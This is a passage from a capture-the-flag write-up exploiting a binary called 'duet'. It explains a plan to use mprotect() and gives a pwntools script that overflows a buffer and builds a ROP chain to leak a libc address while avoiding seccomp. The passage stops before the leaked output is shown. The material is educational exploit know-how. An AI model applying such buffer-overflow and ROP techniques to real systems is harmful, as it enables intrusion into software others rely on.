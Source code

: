 So we will get the address `0x00000000404000` and change its permission with mprotect(). Let's see the arguments of that function:

![mprotect-man-page.png](images/mprotect-man-page.png)

The first argument is the address we want to change permission, the second argument is the length of address we want to change and the last argument is permission number (as linux permission number). So we can leak the libc address first with this code:

```python
from pwn import *

libc = ELF('./libc-2.33.so', checksec=False)
exe = context.binary = ELF('./duet_patched', checksec=False)
context.log_level = 'debug'

p = process(exe.path)

pop_rdi = 0x000000000040168b        # ROPgadget --binary duet | grep ": pop rdi"
pop_rsi_r15 = 0x0000000000401689    # ROPgadget --binary duet | grep ": pop rsi"

payload = b'A'*24
payload += flat(
	pop_rdi, exe.got['puts'],
	exe.plt['puts'],
	exe.sym['vuln']
	)
p.sendlineafter(b'stuff:', payload)
p.recvline()

p.interactive()
```

Because after we leak the address, we will want to run back to main but due to seccomp, if we run from main(), we will get error `Bad syscall` because syscall seccomp is forbidden. Hence, we will want to jump back to vuln() function so I added `exe.sym['vuln']`. Execute the script and we can see the address leaked:
